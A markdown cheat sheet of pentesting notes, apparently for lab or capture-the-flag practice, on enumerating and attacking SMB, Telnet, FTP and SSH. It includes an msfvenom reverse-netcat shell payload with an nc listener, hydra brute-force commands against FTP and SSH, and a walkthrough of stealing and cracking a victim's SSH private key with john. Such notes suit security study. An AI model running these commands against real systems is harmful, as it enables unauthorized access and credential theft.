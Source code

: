 # Network Services

## SMB - Server Message Block Protocol -  
[SMB](https://searchnetworking.techtarget.com/definition/Server-Message-Block-Protocol) is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network.   

### Enumerating SMB
- Port Scanning
    nmap 
- Enum4Linux
    `enum4linux [options] [ip]`  
    `-U` get userlist  
    `-M` get machine list  
    `-N` get namelist dump (different from -U and-M)  
    `-S` get sharelist  
    `-P` get password policy information  
    `-G` get group and member list  
    `-a` all of the above (full basic enumeration)  

### Exploiting SMB
While there are vulnerabilities such as [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/) that can allow remote code execution by exploiting SMB, you're more likely to encounter a situation where the best way into a system is due to misconfigurations in the system.  
- SMBClient
    `smbclient //[IP]/[SHARE]`  
    `-U [name]` : to specify the user  
    `-p [port]` : to specify the port  

## Telnet
Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.  
`telnet [ip] [port]`  

### Exploiting Telnet
- https://www.cvedetails.com/
- https://cve.mitre.org/  
However, you're far more likely to find a misconfiguration in how telnet has been configured or is operating that will allow you to exploit it.  
`sudo tcpdump ip proto \\icmp -i tun0`  
`"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"`  
`"nc -lvp [listening port]"`  

## FTP - File Transfer Protocol -
FTP is a protocol used to allow remote transfer of files over a network.  
A typical FTP session operates using two channels:
- a command (sometimes called the control) channel
- a data channel.  

The FTP server may support either Active or Passive connections, or both.  
- In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it. 
- In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it.   

### Exploiting FTP
#### hydra
`hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp`  
`hydra` Runs the hydra tool  
`-t 4`  Number of parallel connections per target    
`-l [user]` Points to the user who's account you're trying to compromise  
`-P [path to dictionary]`   Points to the file containing the list of possible passwords  
`-vV`   Sets verbose mode to very verbose, shows the login+pass combination for each attempt  
`[machine IP]`  The IP address of the target machine  
`ftp / protocol`    Sets the protocol  

## SSH
### Exploiting SSH
#### Crack SSH Password with hydra  
`hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ssh`  

#### Crack SSH Private Key with John the Ripper
SSH Key-Based Autherntication
1. RSA-Private-key is in .ssh derectory. (id_rsa)
```
victim@target:~/.ssh$ ls -la

total 16
drwx------ 2 nullbyte nullbyte 4096 2019-06-19 13:49 .
drwxr-xr-x 3 nullbyte nullbyte 4096 2019-06-19 13:46 ..
-rw------- 1 nullbyte nullbyte 1743 2019-06-19 13:49 id_rsa
-rw-r--r-- 1 nullbyte nullbyte  405 2019-06-19 13:49 id_rsa.pub
```  
2. `cat id_rsa` and copy, `nano victim_rsa` and paste.
3. Crack the Private Key.  
    `$ python3 /usr/share/john/ssh2john.py victim_rsa > rsa.hash`  
    `$ john --wordlist=/usr/share/wordlists/rockyou.txt rsa.hash`
    <details>
    ```
    $ john --wordlist=/usr/share/wordlists/rockyou.txt rsa.hash
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Press 'q' or Ctrl-C to abort, almost any other key for status
    beeswax          (id_rsa)
    1g 0:00:00:00 DONE (2023-07-27 15:52) 16.66g/s 1378Kp/s 1378Kc/s 1378KC/s beeswax
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed.
    ```
    </details>  
    
    `$ john --show rsa.hash`  
4. SSH into the Target.
    `$ chmod 600 victim_rsa`  
    `$ ssh -i victim_rsa victim@<TARGET_IP>`  
    Enter passphrase. (in this case "beeswax")  







